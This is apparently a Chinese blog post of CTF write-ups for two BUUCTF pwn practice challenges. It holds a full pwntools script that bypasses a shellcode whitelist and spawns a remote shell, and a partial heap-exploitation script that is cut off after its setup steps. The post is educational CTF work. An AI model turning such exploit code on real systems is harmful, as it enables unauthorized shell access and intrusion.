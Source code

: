 ```yaml
---
title: buuctf-pwn write-ups (13)
date: 2023-03-25 17:14:12
categories:
- write-ups
- buuctf 系列
---
```

# buu102-starctf_2019_babyshell
这道题虽然说有一个check函数检查输入的shellcode是否全部都是白名单里面的字符，但实际上我们可以通过开头1个字符为\x00的指令来绕过这个检查，然后写入任意字符。
```python
from pwn import *
# context.log_level = 'debug'
context.arch = 'amd64'

# io = process(['./pwn'])
io = remote('node4.buuoj.cn', 25580)

sa = lambda x, y: io.sendafter(x, y)

if __name__ == '__main__':
	sa(b'give me shellcode, plz:\n', b'\x00\x2f' + asm(shellcraft.amd64.sh()))
	io.interactive()
```

# buu103-actf_2019_babyheap
一道简单的堆排布问题，错开分配到控制chunk，改函数指针，/bin/sh在程序中已经有了。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 26355)
elf = ELF('./pwn')

sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
ru = lambda x: io.recvuntil(x)
rud = lambda x: io.recvuntil(x, drop=True)
ita = lambda: io.interactive()

def add(size, content):
	sla(b'Your choice: ', b'1')
	sla(b'Please input size: ', str(size).encode())
	sa(b'Please input content: ', content)
	
def delete(index):
	sla(b'Your choice: ', b'2')
	sla(b'Please input list index: ', str(index).encode())
	
def show(index):
	sla(b'Your choice: ', b'3')
	sla(b'Please input list index: ', str(index).encode())
	
binsh = 0x602010
	
add(0x20, b'a\n')
add(0x10, b'a\n')
delete(0)
delete(1)
```